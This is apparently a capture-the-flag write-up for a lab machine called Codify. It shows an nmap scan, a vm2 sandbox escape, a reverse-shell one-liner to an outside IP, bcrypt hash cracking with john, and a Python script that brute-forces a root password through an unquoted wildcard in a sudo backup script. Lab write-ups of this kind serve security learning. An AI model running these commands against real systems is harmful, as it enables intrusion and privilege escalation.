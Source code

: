 # Codify

## Nmap

```bash
nmap -sC -sV -vv -p- -oN nmap/full $target
```

## Homepage

![Homepage](Screenshots/2024-02-25-11-18-13.png)

![About us](Screenshots/2024-02-25-11-42-17.png)

![Editor](Screenshots/2024-02-25-11-41-59.png)

About us mentions a library `Vm2`

[PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) for `Sandbox Escape in vm2@3.9.16`

![id proof](Screenshots/2024-02-25-11-44-28.png)

As we now have an operational command execution let's get ourselves a shell.

```bash
bash -c "sh -i >& /dev/tcp/10.10.14.139/4544 0>&1
```

![svc shell](Screenshots/2024-02-25-11-46-47.png)

We'd like a stable shell first:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
^Z
stty raw -echo && fg
export TERM=xterm
```

```bash
find / -type d -perm /u+rx 2>/dev/null | grep -v /sys | grep -v /dev | grep -v /usr | grep -v /etc | grep -v /srv | grep -v /proc | grep -v /var | grep -v /run | grep -v /boot
```

![opt](Screenshots/2024-02-25-11-56-59.png)

![bad coding practice](Screenshots/2024-02-25-13-01-33.png)

by not wrapping `$USER_PASS` we can insert wildcards `*`

![potential wildcard vuln](Screenshots/2024-02-25-11-58-38.png)

Although this is a nice find and we can provide wildcard in the prompt we still need a different user to launch the script, since we're prompted a user password.

![tickets.db](Screenshots/2024-02-25-13-00-52.png)

Strings reveals a hash

![strings](Screenshots/2024-02-25-13-02-33.png)

```bash
john hash -w=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

```bash
ssh joshua@$target
```

![joshua](Screenshots/2024-02-25-13-08-59.png)

We can explore the db one line at a time just by providing joshua's password

```bash
mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "use mysql; select * from user;"
```

![show databases](Screenshots/2024-02-25-14-14-51.png)

```bash
mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "use mysql; Select * from user;"
```

![hashes](Screenshots/2024-02-25-14-16-33.png)

By doing only this we can find `mysql-sha1` hashes, unfortunately root's hash isn't crackable so we'll need to resort to bruteforcing anyway. 

![sudo -l](Screenshots/2024-02-25-13-09-21.png)

As the wildcard always returns True we can bruteforce the password by appending the end of the bruteforced passwd with `*`

```python
import string
import subprocess

all_chars = list(string.ascii_letters + string.digits)
passwd = ""
fail = False

while not fail:
        for char in all_chars:
                command = f"echo '{passwd}{char}*' | sudo /opt/scripts/mysql-backup.sh"
                out = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, text=True).stdout
                if "confirmed" in out:
                        passwd += char
                        print(f"\r{passwd}", end='')
                        break
        else:
                fail = True
                print()
```

![expl.py](Screenshots/2024-02-25-13-39-35.png)

```bash
su root
```

![root](Screenshots/2024-02-25-13-40-02.png)

![Pwn](Screenshots/2024-02-25-13-35-38.png)
